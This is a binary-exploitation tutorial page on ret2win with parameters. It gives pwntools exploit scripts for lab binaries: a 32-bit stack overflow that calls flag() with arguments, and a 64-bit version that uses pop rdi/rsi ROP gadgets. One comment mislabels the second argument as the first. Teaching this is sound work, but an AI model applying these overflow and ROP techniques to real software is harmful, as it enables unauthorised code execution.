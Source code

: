 ```yaml
---
description: Utilising Calling Conventions
---
```


# Exploiting Calling Conventions

{% file src="../../../.gitbook/assets/exploiting\_with\_params.zip" caption="ret2win with Parameters" %}

### 32-bit

The program expects the stack to be laid out like this before executing the function:

![](../../../.gitbook/assets/image%20%2828%29.png)

So why don't we provide it like that? As well as the function, we also pass the return address and the parameters.

![](../../../.gitbook/assets/image%20%2819%29.png)

Everything after the address of `flag()` will be part of the stack frame for the next function as it is **expected** to be there - just instead of using `push` instructions we just overwrote them manually.

```python
from pwn import *

p = process('./vuln-32')

payload = b'A' * 52            # Padding up to EIP
payload += p32(0x080491c7)     # Address of flag()
payload += p32(0x0)            # Return address - don't care if crashes when done
payload += p32(0xdeadc0de)     # First parameter
payload += p32(0xc0ded00d)     # Second parameter

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

### 64-bit

Same logic, except we have to utilise the gadgets we talked about previously to fill the required registers \(in this case `rdi` and `rsi` as we have two parameters\).

We have to fill the registers _before_ the function is called

```python
from pwn import *

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9


payload = b'A' * 56            # Padding
payload += p64(POP_RDI)        # pop rdi; ret
payload += p64(0xdeadc0de)     # value into rdi -> first param
payload += p64(POP_RSI_R15)    # pop rsi; pop r15; ret
payload += p64(0xc0ded00d)     # value into rsi -> first param
payload += p64(0x0)            # value into r15 -> not important
payload += p64(0x40116f)       # Address of flag()
payload += p64(0x0)

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

